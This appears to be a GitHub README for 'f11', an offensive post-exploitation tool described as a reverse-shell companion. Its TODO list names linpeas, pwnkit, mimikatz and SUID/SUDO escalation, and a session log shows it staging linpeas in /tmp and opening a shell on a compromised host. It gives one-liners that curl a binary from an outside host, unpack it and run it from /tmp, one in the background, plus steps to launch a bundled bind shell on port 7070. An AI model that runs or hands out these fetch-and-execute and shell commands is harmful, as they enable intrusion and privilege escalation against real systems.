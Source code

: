 # f11
*revshellpal*

### TODO

- linpeas (all peas)
  - other similar enum?
- pwnkit
- mimikatz (windows)
- SUID/SUDO/CAP/
- SHELL


```
💀 Ӻ11> linpeas
/tmp/.f11/linpeas.sh - 100.00% (0.74 MB) of total size: 0.74 MB
💀 Ӻ11> workdir
Command not found: 'workdir'
💀 Ӻ11> help
Command not found: 'help'
💀 Ӻ11> commands
Command not found: 'commands'
💀 Ӻ11> plugins
Command not found: 'plugins'
💀 Ӻ11> download
Command not found: 'download'
💀 Ӻ11> upload
Command not found: 'upload'
💀 Ӻ11> shell
charlie@galactica:/tmp$ exit

💀 Ӻ11> 
```

### Oneliner

```bash
rm /tmp/f11; curl -sL https://f11snipe.cloud/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
rm /tmp/f11*; curl -sL http://localhost:8000/dist/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11 2>&1 >> /tmp/f11.log &
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
